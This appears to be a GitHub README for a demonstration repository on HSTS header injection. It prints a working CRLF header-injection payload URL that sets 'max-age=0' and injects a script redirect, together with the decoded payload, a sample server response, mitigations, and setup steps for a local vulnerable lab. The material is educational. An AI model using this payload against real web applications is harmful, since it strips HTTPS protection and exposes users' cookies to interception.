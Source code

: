 # HSTS Header Injection

## What is this?

The HTTP Strict Transport Security (HSTS) header is meant to secure browsing, by forcing the browser to use HTTPS instead of HTTP.
Browsers cache the *freshest* HSTS policy information on behalf of an HSTS host [see RFC6797 Section 5.3](https://www.rfc-editor.org/rfc/rfc6797#section-5.3).
The header `Strict-Transport-Security: max-age=0` deletes the HSTS policy for the given host.
This can be exploited when a web application has an HTTP header injection vulnerability, by deleting the HSTS policy and redirecting the victim to HTTP.
A cookie without the secure-flag or other sensitive data, like the authorization header, will be transmitted without encryption.

This repository demonstrates the attack by supplying a vulnerable web server.

### Payload

In order to exploit the vulnerability, a victim must click a link of the following form:

```
https://hsts.local/vuln?param=value%0d%0aStrict-Transport-Security%3a+max-age%3d0%0d%0a%0d%0a<script>location=%22http://hsts.local/%3fcb%3d3401833577%22</script>
```

This decodes to:

```
value
Strict-Transport-Security: max-age=0

<script>location="http://hsts.local/?cb=3401833577"</script>
```

This value, including newline characters, is returned in the vulnerable header `X-Vulnerable-Header` of the server. The entire response looks like this:

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Sun, 19 Mar 2023 21:43:48 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 73
X-Vulnerable-Header: param=value
Strict-Transport-Security: max-age=0

<script>location="http://hsts.local/?cb=3401833577"</script>
Strict-Transport-Security: max-age=31536000
Connection: close

<html><head><title>Title</title></head><body>Just some HTML</body></html>
```

The cache buster is used to prevent browsers from returning cached responses.

### Mitigations

* Prevent HTTP header injection by filtering new line characters.
* Send the HSTS header prior to any other headers.
* Set the cookie with the `Secure` flag to prevent transmission via HTTP.

## Install

Clone the repository and install the requirements.

```
git clone git@github.com:KwnyPwny/hsts-header-injection.git
cd hsts-header-injection
python3 -m venv env
source env/bin/activate
pip install -r requirements.txt
```

## Setup

Modern browsers only obey HSTS headers when the web servers deliver valid certificates.
Self-signed certificates do not seem to be enough in some cases.
Thus we need to create a certificate authority (CA) first, create a certificate signing request for hsts.local, sign the certificate as CA and trust the CA in our browser.

### Certificates

Create a directory for certificates:
```
mkdir certs && cd certs
```

Create a CA:
```
openssl genrsa -aes256 -out my-ca.key 4096
openssl req -x509 -new -nodes -key my-ca.key -sha256 -days 1826 -out my-ca.crt
```

Create a certificate signing request:
```
openssl req -new -nodes -out hsts.local.csr -newkey rsa:4096 -keyout hsts.local.key

Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:hsts.local
Email Address []:
```

Sign the certificate:
```
openssl x509 -req -in hsts.local.csr -CA my-ca.crt -CAkey my-ca.key -CAcreateserial -out hsts.local.crt -days 365 -sha256
```

### /etc/hosts

Add `hsts.local` to your `/etc/hosts`:
```
127.0.0.1	localhost hsts.local
```

### Import CA into browser

Search the browser's settings for `cert` or follow these instructions:

* Firefox (v111): Settings -> Privacy & Security -> Certificates -> View Certificates... -> Authorities -> Import... -> hsts-header-injection/certs/my-ca.crt

* Chromium (v111): Settings -> Privacy & Security -> Security -> Manage certificates -> Authorities -> Import -> hsts-header-injection/certs/my-ca.crt

## Use

1. Start both web servers:
   ```
   sudo env "PATH=$PATH" python http-server.py
   sudo env "PATH=$PATH" python https-server.py
   ```

2. Empty browser history to reset HSTS entries.

3. Call `http://hsts.local/`.
   ![Screenshot of the web page from this project](/images/00.png)

   Recognize that you receive a 301 to `https://hsts.local/` as no HSTS header is set.
   Also recognized that a secret cookie is returned in the server's response.
   ![Screenshot of the browser developer tools that show a 301 redirect](/images/01.png)

4. Click `http://hsts.local?cb=...` with the cache buster value to check whether HSTS is working.
   Chromium reports an internal redirect (307). Firefox only shows the HTTPS request.
   ![Screenshot of the browser developer tools that show a 307 redirect](/images/02.png)

5. Click or copy&paste the *evil link*. It will inject an HSTS header with `max-age=0` to delete the HSTS entry. Afterwards it will redirect the user to `http://hsts.local?cb=...`

   Note that an HTTP request is sent via HTTP that contains the secret cookie.
   ![Screenshot of the browser developer tools that show a 301 redirect again](/images/03.png)
   ![Screenshot of the browser developer tools that shows the secret cookie in the HTTP request](/images/04.png)

6. When sniffing the traffic with Wireshark, you can see that the cookie is indeed transmitted in plain text.
   ![Screenshot of Wireshark showing the secret cookie in plain text](/images/05.png)

----

*Copyright 2023, Konstantin.*